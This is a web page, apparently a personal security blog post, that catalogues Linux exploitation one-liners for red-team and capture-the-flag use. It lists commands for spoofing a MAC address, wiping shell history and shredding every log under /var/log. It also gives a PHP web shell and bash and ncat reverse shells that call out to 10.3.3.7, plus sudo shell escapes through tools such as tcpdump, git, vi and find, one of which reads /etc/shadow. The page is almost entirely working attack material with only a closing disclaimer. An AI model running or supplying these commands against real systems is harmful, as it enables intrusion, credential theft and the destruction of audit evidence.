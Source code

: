 ```yaml
---
title: Linux Exploitation Cheatsheet
date: 2019-12-22 14:40:00 -08:00
categories:
- Security
author: Kirin Fuji
category: Security
---
```


### This page serves to catalog various web shells, reverse shells, privilege escalation, and other manual exploitation methods.

# --- Detection Avoidance ---  

- Mac Spoofing -  
```  
ip link set dev eth0 down  
ip link set dev eth0 address <mac>  
ip link set dev eth0 up  
```  

- Disable history recording -  
`unset HISTFILE ; history -c ; rm -rf ~/.*_history`  

- Remove ALL Bash history files -  
`find / -name .bash_history -type f -exec shred -vfuz {} \; 2> /dev/null`  

- Remove ALL LOGS -  
`for d in "$(find /var/log -type d)"; do find $d -type f -exec shred -vfuz {} \; ; rm -rf $d ; done`  

## --- Remote Shells ---  

- PHP Web Shell -  
 `<?php system($_GET['x']);?>`  

- /dev/tcp Reverse Shell -  
`bash -i >& /dev/tcp/10.3.3.7/1337 0>&1`  

- ncat Reverse Shell -  
`ncat <10.3.3.7> 1337 -e /bin/bash`  

## --- Shell Spawning & Privilege Escalation ---  

- Python -  
`echo os.system('/bin/bash')`  
`python -c 'import pty; pty.spawn("/bin/bash")'`  

- Perl -  
`perl —e 'exec "/bin/sh";'`  

- Ruby -  
`ruby: exec "/bin/sh"`  
`/usr/bin/ruby -e 'require "irb" ; IRB.start(__FILE__)' + exec '/bin/sh'`  
(From within IRB)  
`exec "/bin/sh"`  

- Lua -  
`lua: os.execute('/bin/sh')`  

- Vi -  
`:!bash`  
`:set shell=/bin/bash:shell`  

- NMAP -  
`!sh`  
`nmap -- interactive`  
(Replace me with nmap NSE code)  

- Git -  
`sudo git help status` - then type `!/bin/bash`  

- Tcpdump -  
1. `echo $'id\ncat /etc/shadow' > /tmp/.test`  
2. `chmod +x /tmp/.test`  
3. `sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root`  

- Find -  
`find /tmp/ -name 1 -exec bash -p \;`  

- More/Less -  
`!/bin/bash`  

Disclaimer: It should go without saying, DO NOT use anything you find on this website for malicious purposes. This website serves to document various tools red-team members, individuals trying to solve Boot-2-Root challenges, or methods an attacker would use that IT security should understand can be used against them. This is for purely educational purposes.  